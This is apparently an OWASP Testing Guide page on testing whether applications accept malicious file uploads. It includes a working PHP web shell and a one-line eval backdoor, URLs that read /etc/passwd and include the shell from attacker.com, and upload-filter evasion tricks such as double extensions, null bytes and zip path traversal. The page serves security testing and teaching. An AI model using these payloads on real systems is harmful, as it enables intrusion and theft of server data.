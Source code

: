 ## Summary

Many application’s business processes allow for the upload of
data/information. We regularly check the validity and security of text
but accepting files can introduce even more risk. To reduce the risk we
may only accept certain file extensions, but attackers are able to
encapsulate malicious code into inert file types. Testing for malicious
files verifies that the application/system is able to correctly protect
against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in
that these “malicious” files can easily be rejected through including
business logic that will scan files during the upload process and reject
those perceived as malicious. Additionally, this is different from
uploading unexpected files in that while the file type may be accepted
the file may still be malicious to the system.

Finally, "malicious" means different things to different systems, for
example Malicious files that may exploit SQL server vulnerabilities may
not be considered a "malicious" to a main frame flat file environment.

The application may allow the upload of malicious files that include
exploits or shellcode without submitting them to malicious file
scanning. Malicious files could be detected and stopped at various
points of the application architecture such as: IPS/IDS, application
server anti-virus software or anti-virus scanning by application as
files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their .gif
or .jpg graphic files to the web site. What if an attacker is able to
upload a PHP shell, or exe file, or virus? The attacker may then upload
the file that may be saved on the system and the virus may spread itself
or through remote processes exes or shell code can be executed.

## How to Test

Generic Testing Method

• Review the project documentation and use exploratory testing looking
at the application/system to identify what constitutes and "malicious"
file in your environment.

• Develop or acquire a known “malicious” file. An [EICAR anti-malware
test file](http://www.eicar.org/85-0-Download.html) can be used as
harmless, but widely detected by antivirus software.

• Try to upload the malicious file to the application/system and verify
that it is correctly rejected.

• If multiple files can be uploaded at once, there must be tests in
place to verify that each file is properly evaluated.

### Exploit Payload

• Using the Metasploit payload generation functionality generates a
shellcode as a Windows executable using the Metasploit "msfpayload"
command.

• Submit the executable via the application’s upload functionality and
see if it is accepted or properly rejected.

### Malicious File

• Develop or create a file that should fail the application malware
detection process. There are many available on the Internet such as
ducklin.htm or ducklin-html.htm.

• Submit the executable via the application’s upload functionality and
see if it is accepted or properly rejected.

<http://www.eicar.org/86-0-intended-use.html>

### WebShell Backdoor

For example upload the 'WebShell-backdoor.php' to the target victim
site.

`<?php`
` if(isset($_REQUEST['cmd'])){`
` echo "<pre>";`
` $cmd = ($_REQUEST['cmd']);`
` system($cmd);`
` echo "</pre>";`
` die;`
` }`
` ?>`

Once it's uploaded, the testers/hackers may get the password by visiting
the URL below.

<http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd>

or it may execute by remote file injection as below.

<http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php>

Other PHP example:

<?php @eval($_POST['password']);?>

### Invalid File

• Set up the intercepting proxy to capture the “valid” request for an
accepted file.

• Send an “invalid” request through with a valid/acceptable file
extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods
are common to be found in the source code.

  - Java: new file, import, upload, getFileName, Download,
    getOutputString, fileOutputStream, java.io.file, export
  - C/C++: open, fopen
  - PHP: move_uploaded_file(),Readfile,
    file_put_contents(),file(),parse_ini_file(),
    copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload
checking rules and filters.

  - Change the value of 'Content-Type' as 'image/jpeg' in HTTP request
  - Change the extensions as executable extensions such as file.php5,
    file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx,
    file.asp, file.phtml
  - Changes of capital letters of extensions. such as file.PhP or
    file.AspX
  - Using special trailing such as spaces, dots or null characters such
    as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5,
file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx,
file.asp, file.phtml

  - In IIS6 vulnerability, if the file name is file.asp;file.jpg,the
    file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

  - In NginX, if the original file name is test.jpg, testers/hackers may
    change it to 'test.jpg/x.php'

Once it's uploaded, the file will be executed as x.php

### Zip files path

One Zip file may contain the malicious PHP with target purpose path such
as '..\\..\\..\\..\\hacker.php' If the website doesn't check the unzip
target path, the hacker.php may unzip to the specified path.

### Zip Bomp

Upload the ZIP bomb file that may cause application denial of service.

<https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb>

  - new File, file, OutputSteam, upload, import, file_put_contents,
    open, fopen

## Related Test Cases

[Test File Extensions Handling for Sensitive Information
(OTG-CONFIG-003)](Test_File_Extensions_Handling_for_Sensitive_Information_\(OTG-CONFIG-003\) "wikilink")

[Test Upload of Unexpected File Types
(OTG-BUSLOGIC-008)](Test_Upload_of_Unexpected_File_Types_\(OTG-BUSLOGIC-008\) "wikilink")

## Tools

• Metasploit's payload generation functionality

• Intercepting proxy

## References

OWASP - Unrestricted File Upload -
<https://www.owasp.org/index.php/Unrestricted_File_Upload>

Why File Upload Forms are a Major Security Threat -
<http://www.acunetix.com/websitesecurity/upload-forms-threat/>

File upload security best practices: Block a malicious file upload -
<http://www.computerweekly.com/answer/File-upload-security-best-practices-Block-a-malicious-file-upload>

Overview of Malicious File Upload Attacks -
<http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/>

8 Basic Rules to Implement Secure File Uploads -
<http://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads>

Stop people uploading malicious PHP files via forms -
<http://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms>

How to Tell if a File is Malicious -
<http://www.techsupportalert.com/content/how-tell-if-file-malicious.htm>

CWE-434: Unrestricted Upload of File with Dangerous Type -
<http://cwe.mitre.org/data/definitions/434.html>

Implementing Secure File Upload -
<http://infosecauditor.wordpress.com/tag/malicious-file-upload/>

Watchful File Upload -
<http://palizine.plynt.com/issues/2011Apr/file-upload/>

Matasploit Generating Payloads -
<http://www.offensive-security.com/metasploit-unleashed/Generating_Payloads>

Project Shellcode – Shellcode Tutorial 9: Generating Shellcode Using
Metasploit <http://www.projectshellcode.com/?q=node/29>

Anti-Malware Test file - <http://www.eicar.org/86-0-Intended-use.html>

## Remediation

While safeguards such as black or white listing of file extensions,
using “Content-Type” from the header, or using a file type recognizer
may not always be protections against this type of vulnerability. Every
application that accepts files from users must have a mechanism to
verify that the uploaded file does not contain malicious code. Uploaded
files should never be stored where the users or attackers can directly
access them.